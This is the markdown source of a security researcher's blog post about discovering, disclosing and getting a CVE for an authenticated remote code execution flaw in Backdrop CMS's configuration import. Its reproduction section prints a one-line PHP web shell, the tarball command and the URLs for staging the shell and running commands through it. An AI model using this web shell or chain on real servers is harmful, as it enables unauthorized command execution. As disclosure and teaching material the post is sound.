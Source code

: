 ```yaml
---
layout: post
title: "My First CVE: Remote Code Execution in Backdrop CMS (CVE-2019-19902)"
section: blog
---
```


### TL;DR  
In 2019, I discovered a <span class="highlight">critical Remote Code Execution (RCE)</span> vulnerability in <span class="highlight">Backdrop CMS v1.13.3</span>, stemming from an insecure configuration import feature. The CMS allowed `.tar.gz` files to be uploaded and extracted—even if they contained only PHP shells and no config files. This flaw enabled <span class="highlight">authenticated admin users</span> to gain code execution on the server. I <span class="highlight">responsibly disclosed</span> the issue to the Backdrop Security Team, who confirmed the bug, issued a fix, and assigned it <span class="highlight">CVE-2019-19902</span>. This blog shares the technical details and personal reflections from that journey.

---

## 🧭 The Beginning

Every security researcher remembers their <span class="highlight">first CVE</span>. For me, it was more than a vulnerability—it was a <span class="highlight">milestone</span> that validated my path in cybersecurity.

In late 2019, I had been actively exploring open-source platforms, looking for misconfigurations, insecure defaults, and overlooked flaws. Along with a fellow researcher, I turned my attention to <span class="highlight">Backdrop CMS</span>, an open-source project inspired by Drupal. Its niche adoption and familiar architecture made it a promising target for analysis.

What began as curiosity led to the discovery of a <span class="highlight">critical RCE vulnerability</span>—and ultimately to my first assigned CVE: <span class="highlight">CVE-2019-19902</span>.

---

## 🔍 The Vulnerability

Backdrop CMS allows administrators to import site configurations via compressed `.tar.gz` files. These archives are uploaded and extracted server-side into a hashed staging directory.

A prior security fix had attempted to prevent malicious file extraction by filtering out non-JSON files during import. However, I discovered a subtle bypass: <span class="highlight">if the archive contained only a PHP file and no JSON files at all</span>, the system <span class="highlight">still</span> extracted the archive.

That meant an admin user could upload a `.tar.gz` file containing a <span class="highlight">malicious PHP shell</span>, which would be saved on the server and accessible via a predictable path. By chaining this with a GET parameter (`?cmd=`), an attacker could achieve <span class="highlight">remote code execution</span>.

---

## 🧪 Exploitation Steps

Here’s a simplified reproduction flow (admin access required):

1. **Create a PHP Web Shell**  
    ```php
    <?php system($_GET['cmd']); ?>
    ```

2. **Compress the file**  
    ```bash
    tar -czf shell.tar.gz shell.php
    ```

3. **Login to the CMS as admin**

4. **Navigate to Configuration Management Import**  
    ```
    http://<site>/?q=admin/config/development/configuration/full
    ```

5. **Upload the tarball and click “Stage Import”**

6. **Visit the update info page to find the config directory hash**  
    ```
    http://<site>/core/update.php?op=info
    ```

7. **Access the web shell**  
    ```
    http://<site>/files/<hashed_directory>/staging/shell.php
    ```

8. **Execute commands remotely**  
    ```
    http://<site>/files/<hashed_directory>/staging/shell.php?cmd=id
    ```

Just like that, <span class="highlight">arbitrary commands</span> could be run on the target server.

---

## 📬 Responsible Disclosure

I documented the vulnerability thoroughly—with PoCs, reproduction steps, and even screenshots—and emailed the <span class="highlight">Backdrop Security Team</span>. The communication was led by <span class="highlight">Nate Lampton</span>, who initially couldn’t reproduce the issue because the patch worked for mixed-content archives (JSON + PHP), but not for <span class="highlight">PHP-only archives</span>.

After some follow-up emails, test cases, and discussions, they confirmed the issue. The fix was released on <span class="highlight">December 18, 2019</span>, and the vulnerability was assigned <span class="highlight">CVE-2019-19902</span>.

Here’s an excerpt from Nate’s response that meant a lot to me:

> “While our previous fix filtered out non-JSON files from uploaded archives, you discovered if the archive contains only the script payload (and no JSON files at all), then the archive files are expanded anyway.”

---

## 🔖 CVE Details

- **CVE ID**: [CVE-2019-19902](https://backdropcms.org/security/backdrop-sa-core-2019-016)  
- **Component**: Configuration Management  
- **Severity**: <span class="highlight">Critical</span>  
- **Impact**: <span class="highlight">Remote Code Execution (Authenticated)</span>  
- **Fixed In**: Backdrop CMS 1.14.2  
- **Advisory**: [Backdrop SA-CORE-2019-016](https://backdropcms.org/security/backdrop-sa-core-2019-016)

---

## 🎯 Reflections

Getting my first CVE wasn’t just a technical win—it was <span class="highlight">emotional validation</span>. It taught me a few powerful lessons:

- <span class="highlight">Edge cases matter.</span> The vulnerability bypassed a previous patch by targeting a rare, overlooked scenario.
- <span class="highlight">Persistence pays off.</span> From initial confusion to confirmation, I had to follow up multiple times, ensuring the issue wasn’t dismissed or misunderstood.
- <span class="highlight">Communication is critical.</span> A well-structured report with a clear PoC can accelerate collaboration with maintainers.
- <span class="highlight">You don’t need zero-days.</span> Even open-source platforms with small user bases can contain impactful bugs.

---

## 🙌 A Note to Fellow Researchers

If you’re just starting your journey in cybersecurity, here’s my advice:

- Explore <span class="highlight">open-source projects</span>. They're accessible, well-documented, and often under-tested.
- Focus on <span class="highlight">clarity over complexity</span>—great reports make an impact even if the bug seems “simple.”
- Practice <span class="highlight">responsible disclosure</span>. It builds your credibility and helps secure software used around the world.
- Your <span class="highlight">first CVE</span> might come from curiosity, not deep expertise. That’s okay. It’s a starting point, not a finish line.

---

## 💬 Final Thoughts

<span class="highlight">CVE-2019-19902</span> wasn’t just about a bug in Backdrop CMS—it was about <span class="highlight">believing</span> that I could contribute something meaningful to the security community. That belief turned into action, which turned into <span class="highlight">real-world impact</span>.

To this day, that moment reminds me why I do what I do. And if you're reading this, maybe it’ll be the push you need to chase your <span class="highlight">first CVE</span> too.